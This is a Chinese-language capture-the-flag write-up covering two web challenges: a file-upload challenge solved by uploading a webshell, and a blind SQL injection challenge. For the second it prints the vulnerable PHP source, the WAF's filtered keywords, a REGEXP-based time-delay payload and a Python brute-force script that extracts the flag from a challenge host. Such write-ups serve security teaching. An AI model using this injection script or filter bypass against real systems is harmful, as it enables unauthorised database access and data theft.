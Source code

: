 ### <a class="reference-link" name="ezupload"></a>ezupload

比较简单的一道题目<br>
打开发现存在文件上传，可以直接上传木马文件。。。

然后执行`system('/readflag');`就可以得到`flag`了

看了源码，发现是代码写翻车了(2333333)

[![](https://s2.ax1x.com/2020/02/24/33BYJx.png)](https://s2.ax1x.com/2020/02/24/33BYJx.png)

### <a class="reference-link" name="%E7%9B%B2%E6%B3%A8"></a>盲注

打开页面发现源码：

```
&lt;?php
    # flag在fl4g里
    include 'waf.php';
    header("Content-type: text/html; charset=utf-8"); 
    $db = new mysql();

    $id = $_GET['id'];

    if ($id) `{`
        if(check_sql($id))`{`
            exit();
        `}` else `{`
            $sql = "select * from flllllllag where id=$id";
            $db-&gt;query($sql);
        `}`
    `}`
    highlight_file(__FILE__);

```

这里我们发现是一个注入，还有`waf`会对输出的参数进行过滤。 最主要的是这里没有任何的回显数据。。。 我们可以考虑的是延时注入。。<br>`?id=if(1,sleep(3),1)` 可以造成延时的效果。

测试发现过滤了好多东西：`'   %   =   &lt;   &gt;   *   into   load_file   outfile   like   union   select   insert`

发现过滤了一些运算符，我们可以用`REGEXP`来代替。

这里告诉了我们`flag在fl4g里` 也省去了我们很多步骤，能够直接获取`flag`

大致试这个思路 `1 and if(fl4g REGEXP "a",sleep(4),1)%23`，<br>
脚本：

```
import requests
import time


url = "http://13922ac12da24dc2863fae519bd12b33160484bcc8a748bd.changame.ichunqiu.com/?id="


str_1 = '0123456789abcdefgl[]-'
flag= 'flag`{`'
for j in range(100):
    print j
    for i in str_1:
        payload = '1%20and%20if(fl4g%20REGEXP%20"'+flag+i+'",sleep(5),1)%23'
        url_1 = url +payload
        try:
            res = requests.get(url_1,timeout=3)
        except requests.exceptions.ReadTimeout:
            flag += i
```